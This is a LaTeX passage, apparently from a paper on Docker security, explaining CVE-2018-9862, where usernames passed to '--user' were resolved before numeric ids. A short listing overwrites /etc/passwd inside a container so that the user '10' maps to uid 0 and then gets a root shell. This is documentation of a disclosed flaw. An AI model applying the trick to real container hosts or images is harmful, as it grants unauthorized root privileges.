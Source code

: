 \subsection{CVE--2018--9862}
Docker did try to interpret values passed to the \lstinline{--user} argument as a username before trying them as a user id\cite{CVE-2018-9862-Github}. This can be misused using the first entry of \lstinline{/etc/passwd}. This allows malicious images be created with users that grant \lstinline{root} rights when used.

\begin{lstlisting}[caption={Overwrite the \lstinline{root} user in a container},captionpos=b]
(host)$ docker run --rm -ti ... ubuntu bash
(cont)# echo "10:x:0:0:root:/root:/bin/bash" > /etc/passwd
(host)$ docker exec -ti -u 10 hello  bash
(cont)# id
uid=0(10) gid=0(root) groups=0(root)
\end{lstlisting}
